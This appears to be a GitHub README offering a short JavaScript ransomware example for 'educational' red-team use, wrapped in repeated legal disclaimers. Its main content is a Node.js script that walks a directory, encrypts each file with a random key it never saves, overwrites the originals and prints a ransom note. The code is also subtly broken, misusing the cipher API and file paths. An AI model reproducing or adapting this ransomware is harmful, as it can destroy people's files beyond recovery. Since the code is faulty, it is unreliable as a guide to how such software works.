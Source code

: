 # Ransomware Code in JavaScript (Example)
##### RedTeam - Techniques for 'Offensive Security' by Volkan Sah - Simple Codings

⚠️ Please note that exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. Use this tool responsibly and only on networks you have permission to access. ⚠️

Ransomware attacks are one of the most destructive and malicious types of cyber threats, often resulting in significant financial losses and personal data theft. It is important to understand the mechanisms of ransomware attacks in order to protect yourself and your systems from these malicious threats.

This JavaScript code provides a simplified example of a ransomware attack and its underlying techniques. It is intended for educational and ethical hacking purposes only, and should not be used for any illegal or unethical activities. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.


## Example 
```javascript
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');

// The first step is to identify the directory to be targeted for file encryption.
// Directory to target for file encryption
var targetDirectory = '/user/files';

// Generate encryption key
// Once the encryption key is generated, the code will read all files in the target directory.
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var encryptedData = crypto
    .createCipher('aes-256-cbc', encryptionKey)
    .update(data, 'utf8', 'hex') +
    crypto.createCipher.final('hex');

  // Write encrypted data back to file
  // Finally, the code will display a ransom note to the user, demanding payment in exchange for the decryption key.

  fs.writeFileSync(file, encryptedData);
});

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
e.g
`;

console.log(ransomNote);

```

## Disclaimer
The developer of this script is not responsible for any misuse or damage caused by this tool. It is the user's responsibility to ensure that they have the necessary permissions to use this tool on their chosen networks. Only for educational and ethical hacking purposes only!

## Issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

## WARNING! AGAIN!
**⚠️ exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. ⚠️**

## License
This project is licensed under the MIT License. 

## Credits
[Volkan Sah](https://github.com/volkansah)

